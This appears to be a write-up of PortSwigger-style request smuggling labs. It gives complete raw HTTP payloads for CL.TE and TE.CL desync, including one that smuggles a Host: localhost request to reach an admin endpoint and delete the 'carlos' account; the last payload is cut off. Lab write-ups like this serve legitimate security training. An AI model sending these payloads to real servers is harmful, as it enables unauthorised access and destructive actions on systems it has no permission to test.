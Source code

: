 # Finding request smuggling vulnerabilities
1. This lab has a CL.TE vulnerability, and can be used to cause the next request to result in a 404 response, regardless of the request. The following payload performs this attack:
```
POST / HTTP/1.1
Host: ac191fed1f58e63bc05b5c5500e900a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```
2. This lab is the same as the previous, but with TE.CL instead. The following payload solves causes the incorrect 404 response:
```
POST / HTTP/1.1
Host: ac861f6b1f529bd0c08062e8009800b4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

# Exploiting
1. This lab is about utilizing a CL.TE vulnerability to bypass authentication control on the front-end server. By smuggling a request, we can cause the next request that the server receives to be a request that causes the `carlos` account to be deleted by bypassing the front-end check and adding the `Host: localhost` header. The following payload executes the attack:
```
POST / HTTP/1.1
Host: accd1f121fd01b67c0396e06007b00dc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
2. This lab is the same as the previous, but with TE.CL instead. The following is the previous payload switched for this new ordering:
```
POST / HTTP/1.1
Host: ac881f821e42f646c087a01900530000.web-security-academy.net
Content-length: 4
```